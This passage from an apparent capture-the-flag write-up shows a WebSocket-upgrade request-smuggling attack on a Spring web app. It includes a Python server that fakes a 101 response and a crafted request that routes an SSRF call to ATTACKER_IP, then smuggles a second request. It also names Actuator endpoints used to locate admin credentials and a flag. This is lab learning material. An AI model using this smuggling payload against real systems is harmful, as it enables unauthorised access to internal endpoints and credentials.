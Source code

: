 Then I wrote a simple python server which responds with 101 code:

```python
from http.server import HTTPServer, BaseHTTPRequestHandler

class ExploitHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.log_request()
        if self.path == '/ws':
            self.protocol_version = "HTTP/1.1"
            self.send_response(101)
            self.end_headers()
            print("websocket request")
        else:
            print("other")

def run_server(port=8000):
    server_address = ('', port)
    httpd = HTTPServer(server_address, ExploitHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()

```

And to confirm successful request smuggling I crafted a request to non-existing page:

```http
GET /isOnline?url=http://ATTACKER_IP:8000/ws HTTP/1.1
Host: MACHINE_IP:8080
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /toto HTTP/1.1
Host: MACHINE_IP:8080

 
```

## Smuggling HTTP request to get the first flag

[Spring web apps have several interesting endpoints](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/spring-actuators.html):

> Certain Actuator endpoints can expose sensitive data or allow harmful actions:
> - `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.

Smuggling request to `/trace` showed that there are two additional endpoints `/admin-creds` and `/admin-flag`.

